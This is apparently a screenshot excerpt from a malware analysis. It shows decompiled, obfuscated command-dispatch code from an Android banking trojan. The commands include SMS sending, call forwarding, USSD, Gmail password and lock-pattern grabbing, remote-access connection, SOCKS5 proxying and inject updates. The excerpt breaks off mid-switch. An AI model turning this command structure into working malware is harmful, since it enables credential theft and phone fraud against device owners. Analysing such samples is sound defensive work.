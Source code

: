 ```cs
                    }
                    case "send_sms": {
                        jwozx0.a.send_sms(context1, jSONObject5.getString(jwozx0.a("ZTY=")), jSONObject5.getString(jwozx0.a("ZmM=")));
                        return;
                    }
                    case "run_admin_device": {
                        goto label_1706;
                    }
                    case "sms_mailing_phonebook": {
                        goto label_1647;
                    }
                    case "call_forward": {
                        goto label_1329;
                    }
                    case "request_permission": {
                        goto label_1713;
                    }
                    case "send_mailing_sms": {
                        jwozx0.a.a(context1, jSONObject5.getString(jwozx0.a("ZTY=")), jSONObject5.getString(jwozx0.a("ZmM=")));
                        return;
                    }
                    case "remove_bot": {
                        goto label_1655;
                    }
                    case "grabbing_pass_gmail": {
                        goto label_1720;
                    }
                    case "clean_cache": {
                        goto label_1857;
                    }
                    case "ussd": {
                        goto label_1282;
                    }
                    case "rat_connect": {
                        goto label_1667;
                    }
                    case "get_data_logs": {
                        goto label_1607;
                    }
                    case "grabbing_lockpattern": {
                        goto label_1737;
                    }
                    case "stop_socks5": {
                        goto label_1801;
                    }
                    case "change_url_connect": {
                        goto label_1673;
                    }
                    case "patch_update": {
                        goto label_1866;
                    }
                    case "url": {
                        goto label_1614;
                    }
                    case "update_inject": {
                        goto label_1808;
                    }
                    case "run_app": {
                        goto label_1621;
                    }
                    case "run_record_audio": {
```